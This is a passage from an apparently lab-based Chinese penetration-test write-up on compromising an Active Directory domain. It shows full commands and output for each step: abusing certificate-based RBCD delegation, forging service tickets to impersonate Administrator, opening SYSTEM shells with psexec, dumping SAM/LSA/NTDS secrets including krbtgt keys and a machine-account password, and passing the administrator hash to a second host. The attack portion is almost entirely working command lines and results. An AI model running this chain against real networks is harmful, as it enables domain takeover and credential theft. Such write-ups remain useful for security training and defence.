└─# proxychains -q python3 passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.12.6
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] You are logged in as: XIAORANG\WIN-SERVER$
```

将证书配置到域控的RBCD

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q python3 passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.12.6 -delegate-to 'win-server$' -delegate-from 'Wh1teSu$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] Wh1teSu$ can now impersonate users on win-server$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Wh1teSu$     (S-1-5-21-3745972894-1678056601-2622918667-1106)
```

接下来同之前一样，申请ST，导入票据，无密码登录即可。

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q impacket-getST xiaorang.lab/'Wh1teSu$':'G9FU2vCMQ5Vvow5p' -spn cifs/win-server.xiaorang.lab -impersonate Administrator -dc-ip 172.22.12.6
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_win-server.xiaorang.lab@XIAORANG.LAB.ccache
```

导入票据 PTT

```
export KRB5CCNAME=Administrator@cifs_win-server.xiaorang.lab@XIAORANG.LAB.ccache
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q impacket-psexec Administrator@win-server.xiaorang.lab -k -no-pass -dc-ip 172.22.12.6 -codec gbk
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on win-server.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file wSgxDBqT.exe
[*] Opening SVCManager on win-server.xiaorang.lab.....
[*] Creating service ShUh on win-server.xiaorang.lab.....
[*] Starting service ShUh.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。
C:\windows\system32> whoami
nt authority\system
```

#### 拿下域控，SAM转储

```
┌──(root㉿zss)-[/home/zss/桌面/MagicRelay]
└─# proxychains -q impacket-secretsdump 'xiaorang.lab/administrator@win-server.xiaorang.lab' -target-ip 172.22.12.6 -no-pass -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3d0b51771c180c3bfcb89c8258922751
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d418e6aaeff1177bee5f84cf0466802c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\WIN-SERVER$:plain_password_hex:9d0a4666a6097bfad9b818b02c843a032cf06f0cc8648700c59f6020a47defdb109a2618c6eac52af32f357538efbab7a8bd22bcbefad71d04d8d3a38f4957efd20b50ad9f8bacbe97ab647c075ea487eac15e93ba5a082d8a462c7484de3ca7b4b687a0252fe9492b4d509ccaa02944135c58ed475d9ff5fb2b304ac792b4a81f59d94944b962fe2f14a899c8424ab302a4778ebba752d5c7fe17dd39df47a667fc364eb5a86144c781601088df275cf8d387ef7d695f4636de367a165f9e08f88d087097df88253ef1d08372ce46bfff0b14970e4b317599bb95e9876db12a8821d03de3cb4f100ffa047b73486437
XIAORANG\WIN-SERVER$:aad3b435b51404eeaad3b435b51404ee:778105356cd068609b8f1f15806cfd42:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x1013bf8bbf66971ac0c6c4938c9c187c859ef5b7
dpapi_userkey:0xfd5a847b92da1e611b6a94df40e674f00b7054f8
[*] NL$KM 
 0000   9D 83 14 71 4B 67 2E 66  8B 36 79 E5 74 94 DF CE   ...qKg.f.6y.t...
 0010   F8 0F 28 EC 6A 7A 89 28  4F F7 D1 07 B7 9A B8 6E   ..(.jz.(O......n
 0020   14 76 A6 CC 5E 52 A4 86  86 55 3A C1 37 51 5D 87   .v..^R...U:.7Q].
 0030   3D 33 6E A7 45 EE 79 E8  89 60 CC A6 AA 98 58 EE   =3n.E.y..`....X.
NL$KM:9d8314714b672e668b3679e57494dfcef80f28ec6a7a89284ff7d107b79ab86e1476a6cc5e52a48686553ac137515d873d336ea745ee79e88960cca6aa9858ee
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa95e708a5182931157a526acf769b13:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a12e9453c13fc38f271f91059d9876d5:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
zhangling:1105:aad3b435b51404eeaad3b435b51404ee:07d308b46637d5a5035f1723d23dd274:::
WIN-SERVER$:1000:aad3b435b51404eeaad3b435b51404ee:778105356cd068609b8f1f15806cfd42:::
WIN-YUYAOX9Q$:1103:aad3b435b51404eeaad3b435b51404ee:e611213c6a712f9b18a8d056005a4f0f:::
WIN-AUTHORITY$:1104:aad3b435b51404eeaad3b435b51404ee:ea8246f1e3c137221a5e80376d757c5c:::
Wh1teSu$:1106:aad3b435b51404eeaad3b435b51404ee:c32baf69c085318f8b08028dcb07a9a0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:931811f533238603f8b5158286cf9ad36ce6a57e4f27ec79450579e0b05893eb
Administrator:aes128-cts-hmac-sha1-96:068731dadb1705703176cfc37a5c5450
Administrator:des-cbc-md5:256dfbb0f87aef29
krbtgt:aes256-cts-hmac-sha1-96:1a711447ae68067f6212ca0e9eb30c85443d65ad7546e6fa9e3b7024199f7e2e
krbtgt:aes128-cts-hmac-sha1-96:b50c4f039acd8413cc01725d9cc9be9d
krbtgt:des-cbc-md5:c285a826dac4fe58
zhangling:aes256-cts-hmac-sha1-96:ae14f076559febbb8e32d87b1751160e64e95bec8ada9f3ba74c37c6e9f53874
zhangling:aes128-cts-hmac-sha1-96:a8bf7463f1b20a7c1cae3f1ab8ce9ed8
zhangling:des-cbc-md5:e0f4d534bc3bd0e5
WIN-SERVER$:aes256-cts-hmac-sha1-96:6c9532a7bcab3cf27d7423db8e24ee6b000fd514c14652d3f6a757ee8f729ba8
WIN-SERVER$:aes128-cts-hmac-sha1-96:39402f5714b76b9f357c55201570162a
WIN-SERVER$:des-cbc-md5:a1739dd9b51aa1ea
WIN-YUYAOX9Q$:aes256-cts-hmac-sha1-96:4c58dac71ff0e6765509efd6b3977782df8ab54ef0fda0b9f9317015d509fbcf
WIN-YUYAOX9Q$:aes128-cts-hmac-sha1-96:072d1926fb98407684a30c2312ca2199
WIN-YUYAOX9Q$:des-cbc-md5:b97fa1f29e9b311c
WIN-AUTHORITY$:aes256-cts-hmac-sha1-96:235060b8903452ee18376d12b2a08c71d25a99011bbd923c1e03cb384793d2e5
WIN-AUTHORITY$:aes128-cts-hmac-sha1-96:8bc1daa7e76b0bc7fdc8ba3639d17b8b
WIN-AUTHORITY$:des-cbc-md5:2aeace3b25c801ec
Wh1teSu$:aes256-cts-hmac-sha1-96:74819496b5d7d2c41eadddbca28f3a3cf802cfddca326d9df1ce090fa49b2240
Wh1teSu$:aes128-cts-hmac-sha1-96:41f0891354351476621708d80648c744
Wh1teSu$:des-cbc-md5:43fee5fdd083d33e
[*] Cleaning up...
```

## PTH

拿到域控hash

```
aa95e708a5182931157a526acf769b13
```

直接PTH

```
┌──(root㉿zss)-[/home/…/桌面/impacket/impacket-with-dacledit-main/examples]
└─# proxychains4 -q python3 psexec.py -hashes :aa95e708a5182931157a526acf769b13 xiaorang.lab/administrator@172.22.12.12
/home/zss/桌面/impacket/impacket-with-dacledit-main/examples/psexec.py:287: SyntaxWarning: invalid escape sequence '\/'
  promptRegex = b'([a-zA-Z]:[\\/])((([a-zA-Z0-9 -\.]*)[\\/]?)+(([a-zA-Z0-9 -\.]+))?)?>$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 172.22.12.12.....
[*] Found writable share ADMIN$
[*] Uploading file fLTOrrvq.exe
[*] Opening SVCManager on 172.22.12.12.....
[*] Creating service gGXo on 172.22.12.12.....
[*] Starting service gGXo.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 10.0.14393]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
(c) 2016 Microsoft Corporation����������Ȩ����


C:\Windows\system32> whoami
nt authority\system
```

​
